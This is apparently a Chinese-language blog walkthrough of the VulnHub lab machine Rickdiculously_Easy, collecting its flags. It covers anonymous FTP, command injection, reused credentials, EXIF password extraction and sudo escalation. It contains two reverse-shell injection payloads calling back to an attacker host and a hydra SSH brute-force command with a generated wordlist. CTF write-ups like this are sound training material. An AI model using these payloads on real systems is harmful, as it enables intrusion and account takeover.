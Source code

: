 ```yaml
---
layout: post
title:  "Rickdiculously_Easy"
description: walkthrough
category: vulnhub
---
```

# Rickdiculously_Easy

![image-20200716014424811]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716014424811.png)

![image-20200716014826073]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716014826073.png)

`FLAG:{TheyFoundMyBackDoorMorty}-10Points`

![image-20200719220716779]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719220716779.png)

`FLAG:{TheyFoundMyBackDoorMorty}-10Points`

![image-20200719220849143]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719220849143.png)

`FLAG{Flip the pickle Morty!} - 10 Points`



ftp可匿名登录

![image-20200716015159949]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716015159949.png)

pub文件夹下为空

`FLAG{Whoa this is unexpected} - 10 Points`

![image-20200716021056938]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021056938.png)

![image-20200716021025193]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021025193.png)

![image-20200716021125341]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021125341.png)

`FLAG{Yeah d- just don't do it.} - 10 Points`

![image-20200716021233642]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021233642.png)

![image-20200716021313449]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021313449.png)

```
Password:winter
```

![image-20200716021837588]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021837588.png)

![image-20200716021900523]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716021900523.png)

![image-20200716022912544]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716022912544.png)

![image-20200716024517223]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716024517223.png)

![image-20200716024539575]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716024539575.png)

看来可以尝试命令注入

![image-20200716031647637]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716031647637.png)

简单的命令注入



```bash
192.168.43.27;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.93 1337 >/tmp/f

192.168.43.27;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.43.97",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

但是尝试了一些并不能执行。而我们有一个密码，我们可以先看一下home，确认我们拥有的用户。查看不了，尝试查看passwd

cat并不能正常查看

![image-20200716034004356]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716034004356.png)

使用less

![image-20200716034139683]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716034139683.png)

经过尝试最终Summer能够使用这个密码进入

```bash
Summer:winter
```



```bash
ssh Summer@192.168.43.27 -p 22222
```



![image-20200716034417522]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716034417522.png)

![image-20200716035014944]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716035014944.png)

我们之前使用cat也是显示一只猫，所以应该是cat被替换了。仍然使用less

![image-20200716035506012]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716035506012.png)

`FLAG{Get off the high road Summer!} - 10 Points`

![image-20200716035909914]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716035909914.png)

![image-20200716035955111]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716035955111.png)

![image-20200716040105779]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716040105779.png)

密码有乱码混杂，应该是exif信息中含有密码，传回kali

```bash
scp -P 22222 Summer@192.168.43.27:/home/Morty/Safe_Password.jpg ./
```

![image-20200716040714802]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716040714802.png)

![image-20200716041002433]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716041002433.png)

```bash
Meeseek
```

将压缩文件传回本机

![image-20200716041251640]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716041251640.png)

使用密码解压

![image-20200716041352957]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716041352957.png)

![image-20200716041427512]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716041427512.png)

`FLAG: {131333} - 20 Points`



![image-20200719222043419]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719222043419.png)

找到一个可执行文件

![image-20200719222127896]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719222127896.png)

![image-20200719222202969]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719222202969.png)

不能在当前目录执行。

![image-20200719222255980]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719222255980.png)

![image-20200719222901339]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719222901339.png)

传回本地strings一下

![image-20200719223612858]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719223612858.png)

%d，deCRYPT %30,后面的字段应该是`ahah ah aguments`

然后在另外的目录下发现

![image-20200719225125939]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719225125939.png)

![image-20200716035330583]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200716035330583.png)

not a flag.那flag就有可能是参数

尝试使用flag中的内容作为参数。

![image-20200719223130857]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200719223130857.png)

`FLAG{And Awwwaaaaayyyy we Go!} - 20 Points`

提供了rick的密码的一些提示，在google上搜索了一下，相关乐队的名字是和The Flesh Curtauns

按照提示密码拥有1个大写字母，1个数字。在加上The ，或Flesh，或者Curtauns。

写一个脚本来生成一个字典

```python
from string import ascii_uppercase
for c in ascii_uppercase:
    for x in range(0, 10):
        print str(c) + str(x) + "The"
        print str(c) + str(x) + "Flesh"
        print str(c) + str(x) + "Curtains"
```



```bash
python mkpasswd.py > passwords.txt
```

再使用这个字典爆破ssh

```
hydra -s 22222 -v -l RickSanchez -P passwords.txt 192.168.43.27 ssh
```

![image-20200720020257492]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200720020257492.png)

```bash
RickSanchez:P7Curtains
```

登录ssh

![image-20200720015925102]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200720015925102.png)

sudo -l直接发现可以直接提权，sudo su 提权，查看flag

![image-20200720020216891]({{ site.url }}/assets/Rickdiculously_Easy.assets/image-20200720020216891.png)

`FLAG: {Ionic Defibrillator} - 30 points`